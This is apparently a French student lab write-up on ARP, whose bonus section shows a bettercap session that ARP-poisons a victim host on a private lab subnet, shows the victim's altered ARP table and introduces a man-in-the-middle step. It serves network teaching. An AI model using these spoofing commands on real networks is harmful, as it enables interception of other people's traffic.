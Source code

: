 - ne contient que des ARP request et ARP reply
- contient tout le nécessaire pour que votre table ARP soit populée avec l'adresse MAC de tout le monde

[lien vers ma capture](arp2.pcap)

## 3. Bonus : ARP poisoning

⭐ **Empoisonner la table ARP de l'un des membres de votre réseau**

- il faut donc forcer l'injection de fausses informations dans la table ARP de quelqu'un d'autre
- on peut le faire en envoyant des messages ARP que l'on a forgé nous-mêmes
- avec quelques lignes de code, ou y'a déjà ce qu'il faut sur internet
- faites vos recherches, demandez-moi si vous voulez de l'aide
- affichez la table ARP de la victime une fois modifiée dans le compte-rendu

```zsh
┌──(oui㉿oui)-[~]
└─$ sudo bettercap
bettercap v2.33.0 (built for linux amd64 with go1.22.6) [type 'help' for a list of commands]

10.1.1.0/24 > 10.1.1.100  » [18:41:18] [sys.log] [inf] gateway monitor started ...
10.1.1.0/24 > 10.1.1.100  » net.sniff on
[18:41:21] [sys.log] [inf] net.sniff starting net.recon as a requirement for net.sniff
10.1.1.0/24 > 10.1.1.100  » [18:41:21] [endpoint.new] endpoint fe80::800:27ff:fe00:1 detected as 0a:00:27:00:00:01.
10.1.1.0/24 > 10.1.1.100  » [18:41:21] [endpoint.new] endpoint 10.1.1.102 detected as 08:00:27:2e:a5:3f (PCS Systemtechnik GmbH).
10.1.1.0/24 > 10.1.1.100  » set arp.spoof.targets 10.1.1.102
10.1.1.0/24 > 10.1.1.100  » net.probe on
10.1.1.0/24 > 10.1.1.100  » [18:41:34] [sys.log] [inf] net.probe probing 256 addresses on 10.1.1.0/24
10.1.1.0/24 > 10.1.1.100  » arp.spoof on
10.1.1.0/24 > 10.1.1.100  » [18:41:52] [sys.log] [inf] arp.spoof arp spoofer started, probing 1 targets.
```

POV victime :
```zsh
┌──(oui㉿oui)-[~]
└─$ arp  
Address                  HWtype  HWaddress           Flags Mask            Iface
10.1.1.100               ether   08:00:27:51:12:58   C                     eth0
10.1.1.100               ether   08:00:27:51:12:58   C                     eth0
```


⭐ **Mettre en place un MITM**

- MITM pour Man-in-the-middle
- placez vous entre l'un des membres du réseau, et la passerelle
- ainsi, dès que ce PC va sur internet, c'est à vous qu'il envoie tous ses messages
- pour ça, il faut continuellement empoisonner la table ARP de la victime, et celle de la passerelle
